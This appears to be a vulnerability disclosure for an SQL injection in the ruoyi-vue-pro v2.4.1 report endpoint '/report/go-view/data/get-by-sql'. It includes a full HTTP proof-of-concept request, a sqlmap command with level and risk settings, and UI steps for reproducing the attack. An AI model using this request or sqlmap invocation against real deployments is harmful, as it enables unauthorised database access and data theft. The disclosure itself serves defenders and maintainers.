 BUG_Author

Longlong Gong

# Project

Address: [ruoyi-vue-pro](https://gitee.com/zhijiantianya/ruoyi-vue-pro/tree/v2.4.1(jdk8/11))

## SQL injection

###  `/report/go-view/data/get-by-sql` SQL injection

[Affected version]

v2.4.1



[Affected Component]

/report/go-view/data/get-by-sql



[Software]

https://gitee.com/zhijiantianya/ruoyi-vue-pro/archive/refs/tags/v2.4.1(jdk8/11).zip



[Description]

There is an SQL injection vulnerability in the SQL parameters of the `/report/go view/data/get by SQL ` interface in the ruoyi vue pro system v2.4.1. Hackers can exploit this vulnerability to obtain sensitive server information

POC

```
POST /admin-api/report/go-view/data/get-by-sql HTTP/1.1
Host: 127.0.0.1:48080
Content-Length: 18
sec-ch-ua: "Chromium";v="113", "Not-A.Brand";v="24"
sec-ch-ua-mobile: ?0
Authorization: Bearer 086046e45f974777a8c524c4980d3f91
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/113.0.5672.127 Safari/537.36
Content-Type: application/json
Accept: application/json, text/plain, */*
tenant-id: 1
sec-ch-ua-platform: "Windows"
Origin: http://127.0.0.1:3000
Sec-Fetch-Site: same-site
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://127.0.0.1:3000/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close

{"sql":"*"}
```

```
use sqlmap：python sqlmap.py -r poc.txt --level 3 --risk 2
```

ruoyi-vue-pro-v2.4.1(jdk8-11)\yudao-module-report\yudao-module-report-biz\src\main\java\cn\iocoder\yudao\module\report\controller\admin\goview\GoViewDataController.java

![image-20250302125945435](assets/image-20250302125945435.png)

![image-20250302130006760](assets/image-20250302130006760.png)

Report Management ->Large Screen Designer ->Projects ->My All Projects. After importing the initial SQL file, here is an SQL example. Click Preview, capture the POC written above, and directly use level 3 and risk 2 to successfully attack the sqlmap

![image-20250302125648561](assets/image-20250302125648561.png)

![image-20250302125703090](assets/image-20250302125703090.png)

![image-20250302130437650](assets/image-20250302130437650.png)

![image-20250302125733536](assets/image-20250302125733536.png)

![image-20250302125747000](assets/image-20250302125747000.png)
